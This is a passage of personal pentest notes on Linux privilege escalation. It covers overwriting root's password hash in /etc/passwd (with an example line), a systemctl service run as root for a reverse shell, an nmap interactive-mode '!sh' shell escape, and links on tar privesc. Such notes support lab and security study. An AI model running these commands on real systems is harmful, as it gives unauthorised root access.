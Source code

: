 Edit the /etc/passwd file and enter the hash in the second field of the root user row:

root:L9yLGxncbOROc:0:0:root:/root:/bin/bash

* * *

## ***Create a service as root to get a reverse shell***

https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49

SUID should be set on systemctl bin.

Create a file for the service

![image.png](../_resources/6dae2171256e208c9cac866aa4107518.png)

Start the service

systemctl enable /path/to/service/file
systemctl start service name

* * *

## ***Inspect socket connection***

ss -tulpn

* * *

## ***Nmap SUID set***

https://gtfobins.github.io/gtfobins/nmap/#limited-suid

nmap --interactive
!sh

* * *

## ***Privesc with TAR***

https://www.khalidalnajjar.com/hacking-jeff-writeup-thm/
